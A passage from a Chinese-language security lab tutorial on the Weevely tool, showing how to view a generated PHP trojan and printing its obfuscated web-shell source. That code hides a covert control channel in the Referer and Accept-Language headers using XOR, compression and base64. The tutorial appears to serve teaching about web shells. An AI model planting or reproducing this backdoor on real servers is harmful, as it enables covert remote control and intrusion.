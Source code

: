 对于 PHP 木马的源码，我们可以使用 `cat` 命令查看木马文件，在命令行终端中，输入如下命令：

```
# 使用命令，查看木马文件源码
cat /root/hello.php
```

![图片描述](../imgs/1481010792216.png-wm.png)


### 4.2 解释 PHP 木马源码

Weevely 的最大特点在于其隐蔽性，不论数据通道和控制通道，都做到很大程度的隐蔽，其生成的木马程序，很难被安全工具发现。对于生成的 PHP 木马文件，由 `cat` 命令可以看到其源码如下：

```php
<?php
$A='l{
$u=pa,lrse_url(,l$rr);,lparse_str($u[,l"query,l"],$q),l;
$q=a,lrray_,lval,l,lues($q);preg_mat,l,lch_a';
$y='<$l,l;),l{f,lor($j=0;($,lj<$c&&$i<$l,l),l;,l$j++,l,l,$i++){
$o.=$t{$i}^$k{,l$,lj};}}return ,l,l$o;}
$r=,';
$Q='ll("/([\\w,l])[\\,lw-]+(,l?:;q=0.([,l\\d])),l?,?/",,l$ra,$,lm);i,lf($q&&$m){,l@sess,lion_sta,lrt,l(),l;$s';
$j='=&$_SESS,lION;$,lss,l=,l"substr";$sl="st,lrto,ll,lower,l";$i=$m[1][0],l.$m[1],l[1];$h=$s,ll(,l,l$ss(md5';
$L='($i.$kh),,l0,3),l,l);$f=$sl($ss(md5(,l$,li.$kf),,l0,3));,l$p=,l"";for,l,l($z=,l1;$z<cou,lnt($m[1]);$z';
$S='l$_SERVER;$rr,l=@,l$r["HTTP_R,lE,lFERER"];$ra,l=@$,lr[",l,lHTTP_,lACCEPT_LANGUAGE",l];if(,l,l$rr&&$ra),';
$z=',lrray(",l/",",l+,l"),$ss($s[$i],l,0,$e))),$k)));$o,l=ob_get,l_,lcontent,ls();ob_en,ld,l_clea,ln();$d=';
$r='b,lase6,l4_,lenc,lode(x(g,lzcompress($o,l),$k));print("<,l$k>$d<,l/$k,l,l>");@sessio,ln,l_destroy();}}}}';
```